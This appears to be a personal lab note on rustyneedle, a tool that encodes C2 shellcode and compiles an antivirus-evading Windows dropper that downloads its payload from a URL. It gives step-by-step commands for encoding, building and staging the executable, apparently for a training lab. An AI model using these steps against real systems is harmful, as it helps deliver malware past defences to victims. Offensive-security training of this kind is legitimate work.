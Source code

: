 rustyneedle is a python script used to modify raw shellcode, and provide an executable.

https://codeberg.org/mttaggart/rustyneedle

```
# Clone the repo
git clone https://codeberg.org/mttaggart/rustyneedle.git

# Install rust
sudo apt install rustup -y
rustup default stable

# Set the compilation target, and add it in this case 64 bit Windows
rustup target add x86_64-pc-windows-gnu
```
There's a few things we have to do. We have to install rust, modify the  src/main.rs file to our options

Specifically, modify the number of base64 iterations, and where the shellcode is downloaded from.

Take note of lines 10 and 12
![[notes/Atomic-Notes/40000-TOOLS/4200-AV-BYPASS/4210-rustyneedle/Pasted image 20250529002207.png]]

Now, we need to make our encoded shellcode.
```bash
# Create raw shellcode, like with C2 Mythic. It will be an output option, .bin extension
cd rustyneedle
cp ~/c2/shellcode.bin .

# Encode the shellcode. note that the output file name is note.txt
python3 rustyneedle/encode.py shellcode.bin 3 note.txt

# Take note of where in the dropper we put the downloaded url, and put the note.txt shellcode file there

# Compile the main.rs dropper
cargo build --target x86_64-pc-windows-gnu --release

# Navigate the binary and put it where we want
cp target/x86_64-pc-windows-gnu/release/rustyneedle.exe ~/prolab/cybernetic/web



```

